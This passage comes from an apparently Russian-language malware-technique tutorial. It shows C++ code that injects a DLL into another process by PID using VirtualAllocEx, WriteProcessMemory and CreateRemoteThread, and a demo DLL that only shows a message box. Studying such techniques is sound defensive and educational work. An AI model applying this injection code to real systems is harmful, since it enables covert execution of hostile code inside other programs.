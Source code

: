 ```cpp
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Как обычно, для простоты мы создаем DLL, которая просто выводит всплывающее окно с сообщением:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

